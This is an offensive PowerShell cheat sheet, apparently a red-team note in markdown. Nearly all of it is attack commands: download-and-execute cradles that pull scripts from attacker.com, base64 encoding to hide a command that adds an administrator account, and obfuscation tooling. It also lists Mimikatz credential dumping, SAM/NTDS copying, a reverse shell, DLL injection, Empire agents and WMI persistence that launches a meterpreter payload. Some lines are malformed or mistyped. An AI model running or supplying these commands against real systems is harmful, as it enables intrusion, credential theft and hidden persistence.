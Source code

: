## Prerequisite
* `-ExecutionPolicy bypass -Window hidden`
## Download and Execution
#### In-Memory
* `iex (New-Object Net.WebCLient).DownloadString('<remote_file>')` - downloads and executes the remote file
* `iex (New-Object Net.WebClient).DownloadData()`
* `iex (New-Object Net.WebClient).OpenRead()`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -ping`
* __Net.WebRequest__
  * `$req=[System.Net.WebRequest]::Create("<http://attacker.com/game.ps1>")`
  * `$res=$req.GetResponse()`
  * `iex ([SYstem.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()`
* __System.Xml.XmlDocument__
  * `$xmldoc = New-Object System.Xml.XmlDocument`
  * `$xmldoc.Load("<remote_xml_file>")`
  * `iex $xmldoc.command.a.execute` - download and executes malicious PowerShell located inside XML document
* __Msxml2.XMLHTTP__
  * `$downloader = New-Object  -ComObject Msxml2.XMLHTTP`
  * `$downloader.open("GET","http://attacker.com/game.ps1",$false)`
  * `$downloader.send()`
  * `iex $downloader.responseText`
* __WinHttp.WinHttpRequest.5.1__
  * same as __Msxml2.XMLHTTP__

#### On-Disk
* __DownloadFile__
  * `$local_file="<C:\programdata\payload.exe>"` 
  * `New-Object Net.WebClient).DownloadFile($payload,$local_file)`
  * `& $local_file`
* `BTSAdmin.exe`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -urlcache`
* `Invoke-WebRequest -Uri <target> -OutFile <filename>` - download file from target

#### Tools
* https://github.com/danielbohannon/Invoke-CradleCrafter

## Obfuscation
#### Native PS
* __EncodedCommand__
  * `$command = \`net user admin1 "password!" /add; net localgroup administrators admin1 /add\``
  * `$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
  * `$encodedCommand = [Convert]::ToBase64String($bytes)`
  * `Write-Host $encodedCommand`
  * `cmd> powershell.exe -encodedcommand <result-from-Write-Host>`

#### Tools
* https://github.com/danielbohannon/Invoke-Obfuscation
  * `$env:PSModulePath` - get modules path; copy downlaoded modules to this location
  * `Import_module Invoke-Obfuscation`
  * `Invoke-Obfuscation`
    * `Set SCRIPTBLOCK iex (New-Object Net.WebCLient).DownloadString('<remote_file>')`
    * if applying multiple methods one after another, they pile up (and potentially go above cmd.exe character count limtiation). Use `RESET` to clear previous encodings"
   
 ## Information Gathering and Recon
 #### Tools
* __PowerSploit__
  * `Invoke-Portscan` - port scan and network mapping
  * `Get-HttpStatus` - enumerate files and directories
* __Posh-SecMod__ - https://github.com/darkoperator/Posh-SecMod
  * `Invoke-ARPScan` - arp scan
  * `Invoke-ReverseDNSLookup`
  * `Resolve-HostRecord`
  * `Resolve-DNSRecord`
  * `Get-Command -Module Posh-SecMod` - see full features ofthe tool
 
## PostExploitation
#### Tools
* __Nishang__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/samratashok/nishang
  *  __Gather__ - https://github.com/samratashok/nishang#gather
     * `Copy-VSS` - copy SAM database, NTDS.dit and contents of SYSTEM reg hive
     * `Get-Information`
     * `Get-PassHints` - dump Password Hints used on the system
     * `Invoke-Mimikatz -DumpCreds` - cump clear-text credentials
  *  __Bruteforcing__ - https://github.com/samratashok/nishang/tree/master/Scan
     * `Invoke-BruteForce` -> various bruteforcing options. See `Get-Help Invoke-BruteForce`
  *  __Shells__ - https://github.com/samratashok/nishang/tree/master/Shells
     * `Invoke-PowerShellTcp` - reverse PowerShell shell
* __PowerSploit__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/PowerShellMafia/PowerSploit
  * __PrivEsc__ - `Import-Module .\Privesc.psm1`
     * `Invoke-AllChecks`
  * __Code Execution__ - `Import-Module CodeExecution`
     * `Invoke-DLLInjection`
        - find a processes to inject DLL: `ps | ? {$_.ProcessesName -match "notepad"}`
        - Use PID from above in `Invoke-DLLInjection -ProcessID <PID> <DLL-location>`
* __PSGetSystem__ - https://github.com/decoder-it/psgetsystem
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 
* __Empire__ (implements Powershell without requiring powershell on the target machine)- https://github.com/EmpireProject/Empire
0. `listeners`
   * `help`
1. `uselistener` - Configure listener
   * `set CertPath <location>` -> result of running `Empire/setup/cert.sh`
3. `usestager` - Configure stager
   * `set listener <>`
4. `agents`
   * `interact <agent>`
       * `shell whoami`
       * `searchmodule <keyword>`
       * `usemodule privesc/powerup/allchecks` -> `execute`
       * `help`
* __PowerLurk__ (Persistence) - https://github.com/Sw4mpf0x/PowerLurk
1. Create meterpreter payload and download it onto target
2. `IEX (New-Object Net.WebClient).DownloadString('<http://attacker.com/PowerLurk.ps1>'); Register-MaliciousWmiEvent -EventName CalcExec -PermanentCommand "cmd.exe /c <C:\payload-locationmeterpreter-payload.exe>" -Trigger ProcessesStart -ProcessName calc.exe` - start meterpreter when calc.exe is started
3. 
#### Native PS
__Create Local Process__
* `$proc = Get-WmiObject -List Win32_process`
    * `$proc.Create("cmd.exe")`
* `Invoke-WmiMethod -Class Win32_processes -Name create -ArgumentList cmd.exe`

__Create Remote Process__
* `Invoke-WmiMethod -Class Win32_process -Name create -ArgumentList cmd.exe -ComputerName <IP> -Credential <username>` - doesn't give a shell
    * note the returneed _ProcessId_
* `Get-WmiObject -Class Win32_process -Filter {ProcessId = <id>} -ComputerName <IP> -Credential <username>` - returns info about the process
